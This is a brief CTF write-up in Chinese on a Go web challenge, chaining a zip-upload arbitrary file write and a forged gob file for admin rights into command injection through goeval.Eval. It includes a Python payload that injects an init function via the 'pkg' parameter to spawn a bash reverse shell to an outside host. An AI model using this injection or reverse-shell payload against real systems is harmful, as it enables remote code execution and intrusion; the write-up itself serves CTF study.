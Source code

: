tags:: [[CTF/Zip]], [[CTF/Golang]]

- # 思路
	- 上传并解压zip文件可以实现任意文件写入
	- 写入gob文件可以获取admin权限
	- 获取admin权限可以利用注入进行RCE
- # 命令注入
	- 相关代码
		- ```go
		  eval, err := goeval.Eval(
		    "", 
		    "fmt.Println(\"Good\")", 
		    c.DefaultQuery("pkg", "fmt")
		  )
		  ```
	- 查看函数实现可知此处使用^^拼接生成`.go`文件并执行^^的方法实现eval，且第三个参数会拼接到eval处
	- 我们可以通过import其他package并注入一个`init`函数实现RCE
	- payload
		- ```python
		  r = base_get(f"{url}/backdoor", params = {
		      "pkg": "\"os/exec\"\n fmt\"\n)\n\nfunc\tinit(){\ncmd:=exec.Command(CMD)\nout,_:=cmd.CombinedOutput()\nfmt.Println(string(out))\n}\n\n\nvar(a=\"1".replace(
		          "CMD",
		          '"bash","-c","{}"'.format(
		              generate_reverse_shell_payload("xxx.eu.org", 3001)
		          )
		      )
		  })
		  print(r.text)
		  ```